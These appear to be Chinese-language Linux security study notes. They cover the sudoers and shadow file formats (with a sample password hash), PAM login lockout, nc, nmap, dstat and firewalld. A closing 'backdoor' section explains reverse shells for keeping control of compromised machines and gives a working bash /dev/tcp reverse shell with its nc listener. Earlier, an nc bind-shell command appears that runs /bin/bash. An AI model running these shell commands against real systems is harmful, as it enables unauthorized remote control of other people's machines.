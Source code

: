 ### /etc/sudoer
    - root ALL=(ALL) ALL
        - 第一个ALL 允许哪个终端、机器访问 sudo
        - 第二个ALL 允许sudo以哪个用户的身份执行命令
        - 第三个ALL 允许用户以root身份执行什么命令
### /etc/shadow
    - garys:$1$2Uu6yiEE$m4Pj3bKxVd9oLA74jj4F0/:18364:0:99999:7:::
        - 第一列 用户名
        - 第二列 被加密过的密码；‘ * ’或者是‘ ! ’表示这个用户无法进行登录操作。
        - 第三列 密码最近变更的时间；1970年1月1日作为1，每过一天加1；
        - 第四列 重设密码后多少天内密码不可再次被更动
        - 第八列 账户哪一天失效
### PAM(Pluggable Authentication Modules)
- /etc/ssh/sshd_config 默认是开启状态“UsePAM yes”
- pam_tally2
```bash
# 禁止/etc/ssh/denyuser文件内的用户通过ssh登录
vim /etc/pam.d/sshd
auth required pam_listfile.so item=user sense=deny file=/etc/ssh/denyuser onerr=succeed
``
查看test用户登录的错误次数及详细信息
pam_tally2 --user test
清空test用户的错误登录次数，即手动解锁
pam_tally2 --user test --reset

# 通过tty登录的用户，输入密码错误超过三次则锁定1分钟，包含root用户且root用户锁定2分钟
vim  /etc/pam.d/login
auth required pam_tally2.so deny=3 unlock_time=60 even_deny_root root_unlock_time=120

vim /etc/pam.d/login
```
### 网络工具
1. nc 使用TCP或UDP协议跨网络连接读写数据
    1. 检测端口是否在监听 nc -v -z ip port
    2. 监听 nc -l -u -k 8080 -e /bin/bash
    3. 一个简单的静态web页面服务器
        while true;do  nc -l 88  < somepage.html; done


2. nmap 网络探索和安全审计的开源工
    rpm -vhU http://nmap.org/dist/nmap-5.21-1.i386.rpm
    rpm -vhU http://nmap.org/dist/zenmap-5.21-1.noarch.rpm
    
    - 四种基本的扫描方式：
        + TCP connect()端口扫描（-sT参数）。
        + TCP同步（SYN）端口扫描（-sS参数）。
        + UDP端口扫描（-sU参数）。
        + Ping扫描（-sP参数）。
    - 扫描结果
        Open 端口监听
        filtered 意味着防火墙，过滤器或者其它网络障碍阻止了该端口被访问，Nmap 无法得知 它是 open还是 closed   
        closed 端口未被监听  
        unfiltered 无法确定它们是关闭还是开放时   
        open filtered 监听或者被过滤的  
        closed filtered 关闭或者被过滤的  

    - 扫描 默认会扫描1-1024端口和其他一些常用端口
        nmap -sS -p 0-30000 127.0.0.1
3. dstat 是一个用来替换vmstat、iostat、netstat、nfsstat和ifstat这些命令的工具，是一个全能系统信息统计工具
    - 分组含义及子项字段含义
        ```yaml
        CPU状态: CPU的使用率。显示了用户占比，系统占比、空闲占比、等待占比、硬中断和软中断情况。
        磁盘统计: 磁盘的读写，分别显示磁盘的读、写总数。
        网络统计: 网络设备发送和接受的数据，分别显示的网络收、发数据总数。
        分页统计: 系统的分页活动。分别显示换入（in）和换出（out）。
        系统统计: 统计中断（int）和上下文切换（csw）。
        ```
    - 测网速
        nc -l 9999 >/dev/null
        nc IP 9999 </dev/zero
        dstat


## iptables
### firewalld 被封装过的iptables
systemctl status firewalld.service

1. 查看防火墙规则
firewall-cmd --list-all 

2. 要想使配置的端口号生效,必须重新载入 
firewall-cmd --reload

3. 查询端口是否开放
firewall-cmd --query-port=8080/tcp
4. 开放80端口 和 移除端口
firewall-cmd --permanent --add-port=80/tcp
firewall-cmd --permanent --remove-port=8080/tcp
firewall-cmd --permanent --zone=public --add-port=80/tcp 
5. 端口转发：
firewall-cmd --permanent --add-forward-port=port=80:proto=tcp:toport=8080:toaddr=134.175.167.56


## 后门
- 参考  
https://xz.aliyun.com/t/2549  
### 反弹shell
1. 意义
    1. 局域网内肉鸡无法被连接。
    2. 肉鸡ip会动态改变，不能持续控制。
    3. 防火墙等限制，肉鸡只能发送请求，不能接收请求。
    4. 肉鸡网络环境未知，主动连接，省事。
2. 实现
```bash
# 我方服务器执行
nc -lvp 2333
# 肉鸡上执行
IP=127.0.0.1
bash -i >& /dev/tcp/${IP}/2333 0>&1
```